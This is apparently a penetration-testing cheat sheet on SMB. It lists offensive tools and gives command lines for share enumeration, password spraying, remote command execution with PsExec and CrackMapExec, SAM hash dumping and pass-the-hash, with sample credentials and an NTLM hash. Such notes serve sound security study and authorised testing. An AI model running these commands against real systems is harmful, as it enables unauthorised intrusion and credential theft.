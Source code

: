 # SMB
## Enumeration and exploitation
 1. [SMB Access from Linux Cheat Sheet by SANS](https://www.willhackforsushi.com/sec504/SMB-Access-from-Linux.pdf)
 2. [PsExec](https://learn.microsoft.com/en-us/sysinternals/downloads/psexec)
 3. [rpcclient](https://www.samba.org/samba/docs/current/man-html/rpcclient.1.html)
 4. [enum4linux-ng](https://github.com/cddmp/enum4linux-ng)
 5. [Metasploit PsExec](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/exploit/windows/smb/psexec.md) - Ruby PsExec implementation
 6. [Impacket atexec](https://github.com/fortra/impacket/blob/master/examples/atexec.py) - This example executes a command on the target machine through the Task Scheduler service and returns the output of the executed command.
 7. [Responder](https://github.com/lgandx/Responder) - is an LLMNR, NBT-NS, and MDNS poisoner tool with different capabilities, one of them is the possibility to set up fake services, including SMB, to steal NetNTLM v1/v2 hashes. In its default configuration, it will find LLMNR and NBT-NS traffic. Then, it will respond on behalf of the servers the victim is looking for and capture their NetNTLM hashes.
 8. [Impacket SMBExec](https://github.com/fortra/impacket/blob/master/examples/smbexec.py) - A similar approach to PsExec without using RemComSvc. The technique is described here. This implementation goes one step further, instantiating a local SMB server to receive the output of the commands. This is useful when the target machine does NOT have a writeable share available.
 9. [Impacket PsExec](https://github.com/fortra/impacket/blob/master/examples/psexec.py)
 10. [CrackMapExec - CME](https://github.com/byt3bl33d3r/CrackMapExec)
     1. [Old documentation](https://web.archive.org/web/20220129050920/https://mpgn.gitbook.io/crackmapexec/getting-started/using-credentials)


```
sudo nmap -sV -sC -p139,445 $rhost
```

## File Share
Using smbclient, we can display a list of the server's shares with the option -L, and using the option -N, we tell smbclient to use the null session.
```
smbclient -N -L //$rhost
```
Smbmap is another tool that helps us enumerate network shares and access associated permissions. An advantage of smbmap is that it provides a list of permissions for each shared folder.
```
smbmap -H $rhost
```
Using smbmap with the -r or -R (recursive) option, one can browse the directories:
```
smbmap -H $rhost -r $folder
smbmap -H $rhost --download "full path\...\filename.extension" # To download a file
smbmap -H $rhost --upload filename.extension "full path\...\filename.extension" # To upload a file
```

## Remote Procedure Call (RPC)

```
rpcclient -U'%' $rhost
```
Enum4linux is another utility that supports null sessions, and it utilizes nmblookup, net, rpcclient, and smbclient to automate some common enumeration from SMB targets such as:
 1. Workgroup/Domain name
 2. Users information
 3. Operating system information
 4. Groups information
 5. Shares Folders
 6. Password policy information
```
./enum4linux-ng.py $rhost -A -C
```
## Brute Forcing and Password Spray
```
crackmapexec smb $rhost -u $wordlist -p 'some_password' --local-auth
```
## Impacket PsExec

Python PsExec like functionality example using [RemComSvc](https://github.com/kavika13/RemCom). To use impacket-psexec, we need to provide the domain/username, the password, and the IP address of our target machine.

```
impacket-psexec $username:'$password'@$rhost
```

## CrackMapExec

One advantage of CrackMapExec is the availability to run a command on multiples host at a time. To use it, we need to specify the protocol, smb, the IP address or IP address range, the option -u for username, and -p for the password, and the option -x to run cmd commands or uppercase -X to run PowerShell commands.
 
```
crackmapexec smb $rhost -u $username -p 'some_password' -x '$command' --exec-method smbexec
crackmapexec smb 10.10.110.17 -u Administrator -p 'Password123!' -x 'whoami' --exec-method smbexec # example
```
**Note:** *If the--exec-method is not defined, CrackMapExec will try to execute the atexec method, if it fails you can try to specify the --exec-method smbexec.* .

## Enumerating Logged-on Users

```
crackmapexec smb $rhost/$subnet_mask -u $username -p '$password' --loggedon-users
crackmapexec smb 10.10.110.0/24 -u administrator -p 'Password123!' --loggedon-users # example
```

## Extract Hashes from SAM Database

The Security Account Manager (SAM) is a database file that stores users' passwords. It can be used to authenticate local and remote users. If we get administrative privileges on a machine, we can extract the SAM database hashes for different purposes:
 * Authenticate as another user.
 * Password Cracking, if we manage to crack the password, we can try to reuse the password for other services or accounts.
 * Pass The Hash.

```
crackmapexec smb $rhost -u $username -p '$password' --sam
crackmapexec smb 10.10.110.17 -u administrator -p 'Password123!' --sam # Example
```
## Pass-the-Hash (PtH)

If we manage to get an NTLM hash of a user, and if we cannot crack it, we can still use the hash to authenticate over SMB with a technique called Pass-the-Hash (PtH). PtH allows an attacker to authenticate to a remote server or service using the underlying NTLM hash of a user's password instead of the plaintext password. We can use a PtH attack with any Impacket tool, SMBMap, CrackMapExec, among other tools. Here is an example of how this would work with CrackMapExec:

```
crackmapexec smb $rhost -u $username -H $hash
crackmapexec smb 10.10.110.17 -u Administrator -H 2B576ACBE6BCFDA7294D6BD18041B8FE # Example
```


